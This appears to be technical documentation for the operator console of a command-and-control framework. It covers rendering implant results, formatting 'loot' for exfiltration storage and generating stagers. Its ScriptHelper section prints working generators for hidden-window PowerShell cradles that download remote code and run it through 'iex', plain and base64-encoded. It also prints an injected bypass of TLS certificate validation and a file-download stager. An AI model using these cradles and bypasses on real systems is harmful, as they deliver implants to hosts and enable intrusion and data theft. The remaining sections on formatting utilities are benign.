


# Formatters, Renderers & Helpers — Technical Guide

## Architectural Overview

The Helper layer provides specialized rendering algorithms, polymorphic binary deserialization, and text template generation. It transforms raw byte buffers returned by implants into human-readable visual layouts and formats artifacts for exfiltration storage.



---

## Polymorphic Telemetry Rendering (`TaskPrinter.cs`)

When an implant finishes executing a command, it can return arbitrary serialized binary objects inside `AgentTaskResult.Objects`. `TaskPrinter` uses a lookup table of deserialization delegates to render these objects as Spectre.Console widgets:

```csharp
private static Dictionary<CommandId, Action<TeamServerAgentTask, AgentTaskResult, ITerminal>> 
    _printObjectsFunctions = new Dictionary<CommandId, Action<TeamServerAgentTask, AgentTaskResult, ITerminal>>()
{
    { CommandId.Ls, PrintLs },
    { CommandId.Job, PrintJobs },
    { CommandId.Link, PrintLinks },
    { CommandId.ListProcess, PrintProcessList },
    { CommandId.RportFwd, PrintRportFwd }
};
```

### Deserialization Specifications:
| Command ID | Target Type Deserialized | Visual Representation |
| :--- | :--- | :--- |
| `CommandId.Ls` | `ListDirectoryResult` | Rounded table: Name, Type (`File`/`Dir`), Formatted File Size (`StringHelper.FileLengthToString`). |
| `CommandId.Job` | `List<Job>` | Rounded table: Job Id, Name, Type, ProcessId. |
| `CommandId.Link` | `List<LinkInfo>` | Rounded table: Child Agent Id, Transport Binding URI. |
| `CommandId.ListProcess` | `List<ListProcessResult>` | Hierarchical process tree with parent-child indentation. |
| `CommandId.RportFwd` | `List<ReversePortForwarResult>`| Table: Local Port, Destination Host, Destination Port. |

---

## Recursive Process Tree Algorithm (`RenderPSTree`)

To render process listings as an intuitive tree rather than a flat table, `TaskPrinter` reconstructs the operating system process hierarchy in memory:



### Highlighting Current Presence (`SurroundIfSelf`):
```csharp
private static IRenderable SurroundIfSelf(ListProcessResult res, string value)
{
    if (string.IsNullOrEmpty(value))
        return new Markup(string.Empty);

    var exec = ServiceProvider.GetService<IExecutor>();
    if (exec.CurrentAgent != null && exec.CurrentAgent.Metadata.ProcessId == res.Id)
        return new Markup($"[cyan]{value}[/]");

    return new Markup(value);
}
```
This enables an operator to immediately spot their implant within the process hierarchy of a compromised host.

---

## Loot Archive Formatter (`LootOutputFormatter.cs`)

When saving command outputs to the central Loot repository (`view <index> -l`), `LootOutputFormatter` formats raw outputs and deserialized objects into a standardized assessment report block:

1. **Metadata Header Block**: Generates standard operational headers including Agent Name, Hostname, User context, IP Address, Process/PID, Task ID, Command Line, and Local Execution Timestamp.
2. **Polymorphic Object Fallback**: If the raw string output is empty but serialized binary objects exist, the formatter reconstructs clean text tables for process lists, directory trees, background jobs, or mesh links.
3. **UTF-8 Byte Encoding**: Returns formatted text as a UTF-8 byte stream ready for Base64 transmission to the TeamServer.

---

## Staging & Cradle Generators (`ScriptHelper.cs`)

`ScriptHelper` builds delivery stagers and execution cradles tailored for immediate execution on target operating systems:

### SSL Validation Bypass Handler
To ensure that HTTPS beacons and stagers function properly even when using self-signed or enterprise internal certificates, `ScriptHelper` injects an in-memory SSL callback bypass:

```csharp
public const string PowershellSSlScript = 
    "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;" +
    "Add-Type 'using System.Net;using System.Net.Security;using System.Security.Cryptography.X509Certificates;" +
    "public static class SSLHandler{public static void Ignore(){" +
    "ServicePointManager.ServerCertificateValidationCallback=(sender,cert,chain,errors)=>true;}}';" +
    "[SSLHandler]::Ignore();";
```

### Stager Templates:
- **Plaintext In-Memory Cradle**:
  ```csharp
  public static string GeneratePowershellScript(string url, bool isSecured)
  {
      string script = isSecured ? PowershellSSlScript : string.Empty;
      script += $"(New-Object Net.WebClient).DownloadString('{url}') | iex";
      return $"powershell -noP -sta -w 1 -c \"{script}\"";
  }
  ```
- **Base64-Encoded Cradle**:
  ```csharp
  public static string GeneratePowershellScriptB64(string url, bool isSecured)
  {
      string script = isSecured ? PowershellSSlScript : string.Empty;
      script += $"(New-Object Net.WebClient).DownloadString('{url}') | iex";
      string enc64 = Convert.ToBase64String(Encoding.Unicode.GetBytes(script));
      return $"powershell -noP -sta -w 1 -e {enc64}";
  }
  ```
- **File Download Stager**:
  ```csharp
  public static string GeneratePowershellDownloadScript(string url, string fileName, bool isSecured)
  {
      string script = isSecured ? PowershellSSlScript : string.Empty;
      script += $"wget {url} -OutFile {fileName}";
      return $"powershell -noP -sta -w 1 -c \"{script}\"";
  }
  ```

---

## String Formatting & Tokenization Utilities

### `StringHelper.cs`
- `FileLengthToString(long bytes)`: Converts raw byte sizes into human-readable strings (`1024` -> `1.0 KB`, `1048576` -> `1.0 MB`).
- `FormatElapsedTime(double seconds)`: Formats beacon deltas into readable durations (`1d 2h 30m 15.20s`).
- `IpAsString(byte[] ipAddressBytes)`: Safely formats byte arrays into IPv4 dotted notation.

### `Extensions.cs`
- `ToShortGuid(string guid)`: Truncates 36-character GUID strings into concise 10-character hex identifiers.
- `GetArgs(this string src)`: Custom CLI lexical tokenizer that splits arguments on whitespace while strictly respecting single (`'...'`) and double (`"..."`) quoted strings.
- `ExtractAfterParam(this string src, int prmIndex)`: Extracts all trailing arguments past a specified parameter index without disturbing quoted sub-strings.

---

## Technical Cross-Reference

- Command handler integration: [Command Handlers](./command-handlers.md).
- Execution pipeline and screenshot interception: [Command Framework & Execution](./command-framework-and-execution.md).
- Terminal rendering and styling: [Terminal Subsystem](./terminal-subsystem.md).
